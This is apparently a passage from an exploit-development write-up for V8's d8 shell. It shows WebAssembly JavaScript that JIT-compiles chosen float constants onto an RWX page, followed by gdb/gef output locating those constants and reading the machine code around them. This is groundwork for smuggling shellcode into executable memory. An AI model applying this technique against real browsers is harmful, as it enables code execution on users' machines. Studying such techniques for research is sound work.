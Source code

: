 Next, we copy and paste the array to our javascript code for integrating wasm.

```js
// wasm.js
var code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 124, 3, 2, 1, 0, 7, 8, 1, 4, 109, 97, 105, 110, 0, 0, 10, 33, 1, 31, 0, 68, 61, 10, 215, 163, 112, 189, 42, 64, 68, 164, 112, 61, 10, 215, 171, 96, 64, 68, 20, 174, 71, 225, 122, 213, 148, 64, 26, 26, 11]);
var module = new WebAssembly.Module(code);
var instance = new WebAssembly.Instance(module, {});
var wmain = instance.exports.main;
// JIT compile the wasm bytecode such that our floating immediate values are placed on RWX memory page
for (let j = 0x0; j < 10000; j++) {
    wmain()
}
```

Next, we run the javascript code in debugger using the debug version of `d8`.
We then try to look for our `13.37` floating numbers on a `RWX` memory page.

```console
$ gdb -ex 'run' --args './d8 --allow-natives-syntax --shell ./wasm.js'
gef> p/x 13.37
$1 = 0x402abd70a3d70a3d
gef> pipe search-pattern 0x402abd70a3d70a3d | grep -A1 'rwx'
[+] In (0x35ecd279d000-0x35ecd279e000 [rwx])
  0x35ecd279d84f:    3d 0a d7 a3 70 bd 2a 40  c4 c1 f9 6e c2 49 ba a4    |  =...p.*@...n.I..  |
```

Since we know from `numencyberlabs` blog post that the instruction would be
`mov reg, imm`, we just bruteforce subtracting `0x35ecd279d84f` with 1, 2, 3, ...
until we get the matching instruction.

```console
gef> x/10i 0x35ecd279d84f-0x2
   0x35ecd279d84d:      movabs r10,0x402abd70a3d70a3d
   0x35ecd279d857:      vmovq  xmm0,r10
   0x35ecd279d85c:      movabs r10,0x4060abd70a3d70a4
   0x35ecd279d866:      vmovq  xmm1,r10
   0x35ecd279d86b:      movabs r10,0x4094d57ae147ae14
   0x35ecd279d875:      vmovq  xmm2,r10
   0x35ecd279d87a:      mov    r10,QWORD PTR [rsi+0x77]
```

Next, we take this assembly code and dump it into [this link](https://defuse.ca/online-x86-assembler.htm)
to see the machine code.

```text
0:  49 ba 3d 0a d7 a3 70    movabs r10,0x402abd70a3d70a3d
7:  bd 2a 40
a:  c4 c1 f9 6e c2          vmovq  xmm0,r10
f:  49 ba a4 70 3d 0a d7    movabs r10,0x4060abd70a3d70a4
16: ab 60 40
19: c4 c1 f9 6e ca          vmovq  xmm1,r10
1e: 49 ba 14 ae 47 e1 7a    movabs r10,0x4094d57ae147ae14
25: d5 94 40
28: c4 c1 f9 6e d2          vmovq  xmm2,r10
```
